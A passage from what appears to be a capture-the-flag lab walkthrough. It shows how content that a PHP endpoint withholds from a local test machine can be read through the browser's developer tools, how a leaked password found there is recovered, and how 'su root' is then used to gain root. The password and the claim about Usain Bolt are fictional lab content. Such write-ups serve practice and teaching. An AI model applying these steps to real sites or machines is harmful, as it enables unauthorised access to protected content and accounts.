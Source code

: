 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`curl -s http://192.168.56.135:8000/get_protected_content.php`:
```
{"error":"Forbidden"} ←
```

`curl -I http://192.168.56.135:8000/get_protected_content.php`:
```
HTTP/1.1 403 Forbidden ←
Host: 192.168.56.135:8000
Date: Wed, 09 Oct 2024 13:20:36 GMT
Connection: close
X-Powered-By: PHP/8.2.20
Set-Cookie: PHPSESSID=42lktfjph6e8t6uh3c39i4070s; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8
```

`firefox` > `http://http://192.168.56.135:8000/`

`<Ctrl+Shift+I>` (`Inspect`) > `Network` > `Clear` > `Reload` > `get_protected_content.php`:
```
{"content":"As part of a recent cyber attack, we managed to access Usain Bolt's personal account. The password associated with his account is **LightningBolt123<\/strong>. This breach demonstrates the vulnerabilities of even the most secure systems."}** ←
```

<🔄 Alternative Step.>

`<Ctrl+Shift+I>` (`Inspect`) > `Console` > `window.activateFeature()`:
```
# Olympic Athlete Password Leaked!

A hacker claims to have obtained the password of a famous Olympic athlete. According to the hacker, he managed to hack into the personal account of the famous sprinter, **Usain Bolt**!

The hacker has provided what he claims to be Usain Bolt's account password as proof of his achievement. For security reasons and to protect the athlete's privacy, the content below is blurred and requires a subscription to be revealed.

As part of a recent cyber attack, we managed to access Usain Bolt's personal account. The password associated with his account is **LightningBolt123**. This breach demonstrates the vulnerabilities of even the most secure systems. ←
```

</🔄 Alternative Step.>

`su root`:
```
Password: ←
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)
